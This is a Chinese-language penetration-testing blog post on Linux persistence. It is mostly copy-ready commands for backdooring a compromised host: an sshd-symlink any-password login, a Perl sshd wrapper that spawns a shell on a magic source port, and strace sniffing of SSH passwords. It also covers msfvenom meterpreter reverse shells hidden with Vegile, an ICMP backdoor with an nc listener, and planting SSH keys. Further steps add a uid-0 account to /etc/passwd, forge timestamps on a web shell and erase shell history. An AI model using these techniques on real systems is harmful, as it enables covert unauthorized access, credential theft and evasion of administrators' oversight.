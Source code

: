 ```yaml
---
title: Linux权限维持
date: 2021-05-25 21:40:55
categories: 渗透测试技巧
tags: 权限维持
---
```


#### 背景

学习了一下Linux的权限维持，对一些常规的linux权限维持技巧做一个简单的记录。

虽然手法老套，容易查杀，但在有些环境也许仍有用武之地。

<!--more-->

#### 权限维持

##### SSH软连接

将sshd软连接名设置为su，启动时会去PAM配置文件夹寻找相对应名称的配置信息，而su在pam_rootok只检测uid 0 即可认证成功，从而可以使用任意密码登录。

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=4444;`

![](http://qn.laohuan.xin/2021-05-04_14-48-07ssh%E8%BD%AF%E9%93%BE%E6%8E%A51.png)

可使用当前用户登录也可新建用户

`sudo useradd test -p test`

密码随便输入即可登录

![](http://qn.laohuan.xin/2021-05-04_14-51-33-ssh%E8%BD%AF%E9%93%BE%E6%8E%A53.png)

##### SSH Wrapper

```bash
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd #4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/ssh restart
```

![](http://qn.laohuan.xin/2021-05-08_16-29-15-wrappr-1.png)

无13377端口处于监听状态

![](http://qn.laohuan.xin/2021-05-08_16-31-40-wrappr-2.png)

攻击机执行如下命令

​	`socat STDIO TCP4:192.168.19.139:22,sourceport=13377`

![](http://qn.laohuan.xin/2021-05-08_16-32-24-wrappr-3.png)

想要修改端口，使用python

```python
import struct
buffer = struct.pack('>I6',6666)
print repr(buffer)
```

##### strace监听ssh来源流量

`ps -ef | grep sshd`  //父进程PID

![](http://qn.laohuan.xin/2021-05-10_21-03-36-strace.png)

`strace -f -p 2387 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048`

`grep "read(6" /tmp/.ssh.log | tail -n 10`

![](http://qn.laohuan.xin/2021-05-10_21-00-27-strace2.png)

##### 端口复用

`apt install sslh`

`sudo nano /etc/default/sslh`

将**Run=no**改为**Run=yes**，再修改其需要复用的端口

![](http://qn.laohuan.xin/2021-05-08_18-40-24-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8.png)

直接ssh 443端口

![](http://qn.laohuan.xin/2021-05-08_18-43-40-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8.png)

在测试时发现443端口如果有服务监听时无法成功，可能是我环境问题。

##### vegile

[传送门](http://github.com/Screetsec/Vegile.git)

```bash
git clone http://github.com/Screetsec/Vegile.git
cd Vegile
chmod +x Vegile
```

帮助信息

![](http://qn.laohuan.xin/2021-05-10_21-46-59-vegile-h.png)

生成msf木马

`msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.19.146 LPORT=4444 -f elf > test.elf`

隐藏木马

`chmod +x test.elf`
`./Vegile --u test.elf`

![](http://qn.laohuan.xin/2021-05-10_22-00-14-vegile-t.png)

##### ICMP后门

[项目地址](http://github.com/andreafabrizi/prism)

安装

```bash
git clone http://github.com/andreafabrizi/prism.git
apt-get install libc6-dev-amd64
```

修改文件

`nano prism.c`

![](http://qn.laohuan.xin/2021-05-12_20-58-19-icmp-1.png)

编译

`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

Nc 监听

`nc -lvp 6666`

执行反弹命令

`python sendPacket.py 192.168.19.139 test  192.168.19.146 6666`

![](http://qn.laohuan.xin/2021-05-12_20-59-32-icmp-2.png)

成功获取shell,python交互式shell

`python -c "import pty;pty.spawn('/bin/bash')"`

![](http://qn.laohuan.xin/2021-05-12_21-01-22-icmp-3.png)

##### SSH KEY

生成密钥对

​	`ssh-keygen -t rsa`

直接回车会在默认位置～/.ssh下生成密钥对，我这里生成test

![](http://qn.laohuan.xin/2021-05-13_21-01-17-sshkey1.png)

将公钥test.pub的内容放到目标的authorized_keys文件中

`echo test.pub >> ~/.ssh/authorized_keys`

设置权限

`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`

![](http://qn.laohuan.xin/2021-05-13_21-01-56-sshkey2.png)

连接目标，**-i** 指定私钥

`ssh -i test root@192.168.19.139 `

![](http://qn.laohuan.xin/2021-05-13_21-02-32-sshkey3.png)

##### 其他命令

1. 创建root用户

   生成密码

   `perl -le 'print crypt("123456","haha")' `//密码:123456 盐值:haha

![](http://qn.laohuan.xin/2021-05-13_21-48-52-add_root1.png)

​	写入passwd

​	`echo "hacker:hazsR9UJJSGrk:0:0:root:/root:/bin/bash">>/etc/passwd`

2. 时间戳

   `touch -r index.php shell.php` //将shell.php的时间戳改为index.php的时间戳

3. 文件加锁

   `chattr +i shell.php`

   解锁

   `chattr -i shell.php`

4. history历史命令记录

   关闭历史命令记录

   `[空格]set +o history` //前面有空格，意味着此条命令也不会被记录

   

   删除历史命令

   `history -d num ` //num为要删除的命令序号

   

   恢复历史命令记录

   `set -o history`

#### 参考连接

[http://xz.aliyun.com/t/7338](http://xz.aliyun.com/t/7338)

[http://www.cnblogs.com/-mo-/p/12337766.html](http://www.cnblogs.com/-mo-/p/12337766.html)

